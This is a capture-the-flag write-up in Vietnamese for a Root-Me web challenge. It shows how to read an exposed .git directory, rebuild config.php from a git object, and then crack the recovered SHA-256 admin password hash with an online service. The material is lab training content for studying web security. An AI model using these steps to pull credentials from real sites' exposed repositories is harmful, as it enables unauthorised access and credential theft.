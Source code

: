 # Insecure Code Management

## Solution

Bằng cách đọc các tài nguyên đã cho, trước tiên kiểm tra địa chỉ: `http://challenge01.root-me.org/web-serveur/ch61/.git/` cho thấy nội dung thư mục .git.

Có thể download file ở đó và sau đó phân tích cú pháp bằng `gin`:

```
pip3 install gin
gin [downloaded index folder]/index
```

Điều này cung cấp một số thông tin thú vị:

```
[entry]
 entry = 1
 ctime = 1570126972.5167503
 mtime = 1569244477.4367204
 dev = 64512
 ino = 497048
 mode = 100644
 uid = 1001
 gid = 33
 size = 109
 sha1 = 663fe35facfd983a948d221c769438f230eb18ef
 flags = 10
 assume-valid = False
 extended = False
 stage = (False, False)
 name = config.php
```

Thấy ở đây một commit chỉnh sửa tệp config.php (tệp thường chứa thông tin xác thực quản trị viên ban đầu)

Vì vậy sử dụng giá trị `sha1`, kiểm tra địa chỉ sau:

```
http://challenge01.root-me.org/web-serveur/ch61/.git/objects/66/3fe35facfd983a948d221c769438f230eb18ef
```

dẫn đến một tệp nén zlib

Cuối cùng giải nén nó bằng một tập lệnh python đơn giản:

```
import zlib
file = '3fe35facfd983a948d221c769438f230eb18ef'
compressed = open(file, 'rb').read()
decompressed = zlib.decompress(compressed)
print decompressed
```

Điều này mang lại những thông tin mong muốn:

```
blob 109 <?php
       $username = "admin";
       $password = "0c25a741349bfdcc1e579c8cd4a931fca66bdb49b9f042c4d92ae1bfa3176d8c";
```

COMMIT_EDITMSG chứa thông báo `blue team want sha256!!!!!!!!!`, vì vậy sử dụng trang web này: `https://hashkiller.co.uk/Cracker/SHA256` để crack $password trước đó để lấy flag.